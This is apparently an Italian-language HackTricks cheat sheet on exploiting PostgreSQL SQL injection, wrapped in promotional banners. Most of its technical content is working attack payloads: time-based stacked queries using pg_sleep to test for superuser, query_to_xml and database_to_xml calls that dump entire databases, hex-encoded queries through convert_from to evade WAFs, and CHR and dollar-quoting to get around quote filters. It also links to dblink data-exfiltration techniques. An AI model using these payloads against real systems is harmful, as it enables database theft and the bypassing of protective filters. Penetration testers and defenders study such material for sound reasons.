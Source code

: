 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Questa pagina ha lo scopo di spiegare diversi trucchi che potrebbero aiutarti a sfruttare una SQL injection trovata in un database postgresql e a completare i trucchi che puoi trovare su** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

Il **modulo PostgreSQL `dblink`** offre capacità per connettersi ad altre istanze PostgreSQL ed eseguire connessioni TCP. Queste funzionalità, combinate con la funzionalità `COPY FROM`, abilitano azioni come l'escalation dei privilegi, la scansione delle porte e la cattura della risposta alla sfida NTLM. Per metodi dettagliati su come eseguire questi attacchi controlla come [eseguire questi attacchi](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Esempio di esfiltrazione utilizzando dblink e oggetti di grandi dimensioni**

Puoi [**leggere questo esempio**](dblink-lo\_import-data-exfiltration.md) per vedere un esempio CTF di **come caricare dati all'interno di oggetti di grandi dimensioni e poi esfiltrare il contenuto di oggetti di grandi dimensioni all'interno del nome utente** della funzione `dblink_connect`.

## Attacchi PostgreSQL: Read/write, RCE, privesc

Controlla come compromettere l'host e aumentare i privilegi da PostgreSQL in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### Funzioni di stringa PostgreSQL

Manipolare le stringhe potrebbe aiutarti a **bypassare i WAF o altre restrizioni**.\
[**In questa pagina** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**puoi trovare alcune funzioni di stringa utili.**

### Query impilate

Ricorda che postgresql supporta query impilate, ma diverse applicazioni genereranno un errore se vengono restituite 2 risposte quando ci si aspetta solo 1. Ma, puoi comunque abusare delle query impilate tramite l'iniezione di tempo:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query\_to\_xml**

Questa funzione restituirà tutti i dati in formato XML in un solo file. È ideale se vuoi scaricare molti dati in un'unica riga:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Questa funzione eseguirà il dump dell'intero database in formato XML in un'unica riga (fai attenzione se il database è molto grande poiché potresti causare un DoS o addirittura il tuo stesso client):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Se puoi eseguire **query** passando **all'interno di una stringa** (ad esempio utilizzando la funzione **`query_to_xml`**). **Puoi usare convert\_from per passare la stringa come esadecimale e aggirare i filtri in questo modo:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Citazioni vietate

Se non puoi usare le citazioni per il tuo payload, puoi aggirare questo problema con `CHR` per clausole di base (_la concatenazione dei caratteri funziona solo per query di base come SELECT, INSERT, DELETE, ecc. Non funziona per tutte le istruzioni SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
O con `$`. Queste query restituiscono gli stessi risultati:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_è richiesta la conoscenza fluente del polacco, scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
